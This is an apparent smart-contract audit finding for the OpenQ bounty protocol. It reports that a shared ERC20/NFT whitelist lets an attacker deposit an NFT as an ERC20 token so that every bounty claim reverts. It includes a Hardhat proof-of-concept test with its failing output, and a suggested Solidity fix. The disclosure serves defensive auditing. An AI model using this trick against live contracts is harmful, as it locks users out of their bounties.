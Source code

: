 bin2chen

medium

# block claim bounty attacks

## Summary
A malicious user can deposit NFT as erc20 to execute the attack.
## Vulnerability Detail
The current protocol allows anyone to provide bonuses
In order to prevent malicious users using malicious token addresses to break the protocol: for example, by providing malicious token addresses, always revert when claim bounty, thus blocking claims, etc.

That's why we provide a whitelist token mechanism.

However, the current whitelist puts erc20 and erc721 in the same whitelist, which gives the attacker the possibility to break the protocol: a malicious user can pretend NFT (in the whitelist) to be erc20 into tokenAddresses , when claim bounty will always revert, and cannot perform claim bounty. .

So NFT can be treated as ERC20 execution fundBountyToken ()?
Yes, because :
"NFT and ERC20 balanceOf/transferFrom method signature is the same"
But when the claim bounty uses transfer(), it will revert, because NFT does not have this method signature

Here is the test code, you can deposit NFT as erc20,but anyone can not claim his bounty:
add to test/ClaimManager.test.js
```js
    it('NFT_TO_TOKEN', async () => {
    
	    await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);
	    const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);
    
	    await mockNft.approve(bountyAddress, 1);   //1. **** @audit approve first , transferFrom need it
    
                //2. **** @audit fundBountyToken nft is ok
	    await depositManager.fundBountyToken(bountyAddress, mockNft.address, 1, 1, zeroTier);
    
	    const expectedTimestamp = await setNextBlockTimestamp();
	    console.log("fundBountyToken(NFT) is ok");
	    
                 //3. **** @audit claim bounty will revert
	    await claimManager.connect(oracle).claimBounty(bountyAddress, owner.address, abiEncodedTieredCloserDataFirstPlace);
    
    });	
```


``` yarn test test/ClaimManager.test.js --grep NFT_TO_TOKEN ```
output
```console

fundBountyToken(NFT) is ok


  1) ClaimManager.sol
       claimBounty
         TIERED
           EVENTS
             NFT_TO_TOKEN:
     Error: VM Exception while processing transaction: reverted with reason string 'SafeERC20: low-level call failed'
    at AtomicBountyV1.<receive> (contracts/Bounty/Implementations/AtomicBountyV1.sol:197)
```

A malicious user can deposit NFT as erc20 to execute the attack.
Although the attacker will lose NFT, it should be possible to find cheap NFTs that are in the whitelist

So it is recommended that the NFT and ERC20 whitelist independent

## Impact

Normal users cannot claim the bounty

## Code Snippet

https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/TokenWhitelist/TokenWhitelist.sol#L19-L32


## Tool used

Manual Review

## Recommendation

Independent Whitelist

```solidity
abstract contract TokenWhitelist is Ownable {
    uint256 public TOKEN_ADDRESS_LIMIT;
    uint256 public tokenCount;
-   mapping(address => bool) public whitelist;
+  mapping(address => bool) public whitelistToken;
+  mapping(address => bool) public whitelistNFT;

+    function isTokenWhitelisted(address _tokenAddress) external view returns (bool) {
+        return whitelistToken[_tokenAddress];
+    }

+   function isNFTWhitelisted(address _tokenAddress) external view returns (bool) {
+      return whitelistNFT[_tokenAddress];
+   }

+    function addNFT(address _tokenAddress) external onlyOwner {
+        require(
+            !whitelistToken[_tokenAddress] && !whitelistNFT[_tokenAddress] ,
+            Errors.TOKEN_ALREADY_WHITELISTED
+        );
+        whitelistNFT[_tokenAddress] = true;
+        tokenCount++;
+    }

+    function addToken(address _tokenAddress) external onlyOwner {
+        require(
+            !whitelistToken[_tokenAddress] && !whitelistNFT[_tokenAddress] ,
+            Errors.TOKEN_ALREADY_WHITELISTED
+        );
+        whitelistToken[_tokenAddress] = true;
+        tokenCount++;
+    }

+    function removeToken(address _tokenAddress) external onlyOwner {
+        require(
+            whitelistToken[_tokenAddress],
+            Errors.TOKEN_NOT_ALREADY_WHITELISTED
+        );
+        whitelistToken[_tokenAddress] = false;
+        tokenCount--;
+    }
+    function removeNFT(address _tokenAddress) external onlyOwner {
+        require(
+            whitelistNFT[_tokenAddress],
+            Errors.TOKEN_NOT_ALREADY_WHITELISTED
+        );
+        whitelistNFT[_tokenAddress] = false;
+        tokenCount--;
+    }

```

```solidity
    function fundBountyNFT(
        address _bountyAddress,
        address _tokenAddress,
        uint256 _tokenId,
        uint256 _expiration,
        bytes calldata _data
    ) external onlyProxy {
        IBounty bounty = IBounty(payable(_bountyAddress));
+       require(isNFTWhitelisted(_tokenAddress), Errors.TOKEN_NOT_ACCEPTED);
```